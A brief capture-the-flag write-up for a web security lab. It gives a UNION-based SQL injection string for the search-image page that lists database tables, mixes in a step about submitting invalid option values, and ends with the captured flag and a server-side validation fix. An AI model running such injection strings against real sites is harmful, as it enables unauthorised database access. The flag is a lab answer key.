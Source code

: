 # Where:
    /?page=searchimg
# How:
    -By entering<br>
    *-1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()*
    -Change the value of 1 of the options to an invalid value.
    Or
    -Add an invalid option.
    -Select the invalid value
    -Receive the flag
# Flag:
    03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
    Store options server side/on backend.All user input should be sanitised and validated (backend).